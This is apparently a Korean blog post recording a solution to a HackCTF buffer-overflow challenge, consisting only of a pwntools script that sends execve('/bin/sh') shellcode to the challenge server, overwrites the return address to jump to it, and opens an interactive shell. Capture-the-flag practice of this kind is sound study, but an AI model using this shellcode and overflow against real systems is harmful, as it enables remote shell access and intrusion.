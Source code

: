 ```yaml
---
title: "[HackCTF] 내 버퍼가 흘러넘친다!!!"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```

{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3003)
p.recv(1024)
p.send("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")
p.recv(1024)
p.sendline("A"*24+p32(0x0804a060))
p.interactive()
{% endhighlight %}
